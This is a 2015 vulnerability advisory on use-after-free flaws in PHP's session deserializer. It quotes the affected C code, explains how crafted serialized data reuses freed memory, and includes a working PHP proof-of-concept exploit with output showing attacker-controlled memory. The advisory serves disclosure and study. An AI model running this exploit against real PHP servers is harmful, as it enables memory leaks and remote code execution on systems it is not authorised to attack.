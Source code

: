 #Use After Free Vulnerabilities in Session Deserializer

Taoguang Chen <[@chtg](http://github.com/chtg)> - Write Date: 2015.8.9 - Release Date: 2015.9.4

> Multiple use-after-free vulnerabilities were discovered in session deserializer (php/php_binary/php_serialize) that can be abused for leaking arbitrary memory blocks or execute arbitrary code remotely.

Affected Versions
------------
Affected is PHP 5.6 < 5.6.13  
Affected is PHP 5.5 < 5.5.29  
Affected is PHP 5.4 < 5.4.45

Credits
------------
This vulnerability was disclosed by Taoguang Chen.

Description
------------
```
PS_SERIALIZER_DECODE_FUNC(php) /* {{{ */
{

	...	

	PHP_VAR_UNSERIALIZE_INIT(var_hash);

	p = val;

	while (p < endptr) {
		
		...

		if (has_value) {
			ALLOC_INIT_ZVAL(current);
			if (php_var_unserialize(&current, (const unsigned char **) &q, (const unsigned char *) endptr, &var_hash TSRMLS_CC)) {
				php_set_session_var(name, namelen, current, &var_hash  TSRMLS_CC);
			}
			zval_ptr_dtor(&current);
		}
		PS_ADD_VARL(name, namelen);
skip:
		efree(name);

		p = q;
	}
break_outer_loop:

	PHP_VAR_UNSERIALIZE_DESTROY(var_hash);

	return SUCCESS;
}
```

When session deserializer (php/php_binary) deserializing multiple data it will call to php_var_unserialize() multiple times. So we can create ZVAL and free it via the php_var_unserialize() with a crafted serialized string, and also free the memory (reduce the reference count of the ZVAL to zero) via zval_ptr_dtor() with deserialize two identical session data, then the next call to php_var_unserialize() will still allow to use R: or r: to set references to that already freed memory. It is possible to use-after-free attack and execute arbitrary code remotely.

In some other cases, session deserializer (php/php_binary/php_serialize) may also lead to use-after-free vulnerabilities: i) via crafted Serializable::unserialize() ii) via unserialize()'s callback function and zend_lookup_class() call a crafted __autoload().

Proof of Concept Exploit
------------
The PoC works on standard MacOSX 10.11 installation of PHP 5.4.44.

```
<?php

session_start();

$fakezval = ptr2str(1122334455);
$fakezval .= ptr2str(0);
$fakezval .= "\x00\x00\x00\x00";
$fakezval .= "\x01";
$fakezval .= "\x00";
$fakezval .= "\x00\x00";

$exploit = 'ryat|a:2:{i:0;i:1;i:1;a:1:{i:1;chtg|a:1:{i:0;R:4;}';
// $exploit = 'ryat|a:1:{i:0;i:1;}ryat|i:1;chtg|R:1;';
session_decode($exploit);

for ($i = 0; $i < 5; $i++) {
    $v[$i] = $fakezval.$i;
}

var_dump($_SESSION);

function ptr2str($ptr)
{
	$out = "";
	for ($i = 0; $i < 8; $i++) {
		$out .= chr($ptr & 0xff);
		$ptr >>= 8;
	}
	return $out;
}

?>
```

Test the PoC on the command line:

```
$ php uafpoc.php
array(2) {
  ["ryat"]=>
  NULL
  ["chtg"]=>
  array(1) {
    [0]=>
    int(1122334455)  <===  so we can control the memory and create fake ZVAL :)
  }
}
```

